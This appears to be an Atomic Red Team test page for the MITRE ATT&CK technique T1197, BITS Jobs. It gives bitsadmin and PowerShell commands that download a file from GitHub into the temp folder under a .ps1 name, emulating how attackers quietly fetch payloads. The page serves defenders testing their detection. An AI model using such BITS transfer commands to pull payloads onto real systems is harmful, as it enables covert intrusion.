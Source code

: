# BITS Jobs

## MITRE ATT&CK Technique:
[T1197](https://attack.mitre.org/wiki/Technique/T1197)

### bitsadmin.exe

    bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Execution/Bitsadmin.md $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1

### PowerShell

    Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Execution/Bitsadmin.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
